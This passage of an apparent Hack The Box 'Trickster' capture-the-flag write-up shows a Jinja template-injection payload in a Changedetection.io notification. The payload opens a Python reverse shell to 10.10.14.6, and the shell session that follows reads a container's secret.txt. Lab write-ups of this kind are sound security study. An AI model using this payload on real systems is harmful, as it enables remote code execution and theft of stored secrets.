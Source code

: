 **Malicious Notification Body**

{% raw %} 
```jinja
{% for x in ().__class__.__base__.__subclasses__() %}
{% if "warning" in x.__name__ %}
{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.6\",8088));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"/bin/bash\")'").read()}}
{% endif %}
{% endfor %}     
```
{% endraw %}

**Full Exploit Workflow**

![Screenshot](/assets/images/2025-02-26-Trickster-HTB-Writeup/Trickster-Writeup-HTB20241130023123.png)

After performing the exploit chain we are granted a root user reverse shell on the Docker container that is running the Changedetection.io instance. From this shell we can enumerate more about the file system running on the container. As we change to the base root directory of the file system I noticed a curious `/datastore` directory which seems to contain a few interesting files.

```shell
root@a4b9a36ae7ff:/app# ls
ls
changedetection.py  changedetectionio
root@a4b9a36ae7ff:/app# cd /
cd /
root@a4b9a36ae7ff:/# ls
ls
app  boot       dev  home  lib64  mnt  proc  run   srv  tmp  var
bin  datastore  etc  lib   media  opt  root  sbin  sys  usr
root@a4b9a36ae7ff:/# cd datastore
cd datastore
root@a4b9a36ae7ff:/datastore# ls
ls
5c48e966-1bee-4782-b077-b259c5635727  secret.txt              url-list.txt
Backups                               url-list-with-tags.txt  url-watches.json
root@a4b9a36ae7ff:/datastore# cat secret.txt
cat secret.txt
5fce75c64d33acf05d2d3b21d29e693d992f240d5c440310cff3edfb743c64a5root@a4b9a36ae7ff:/datastore# 

root@a4b9a36ae7ff:/datastore#
```
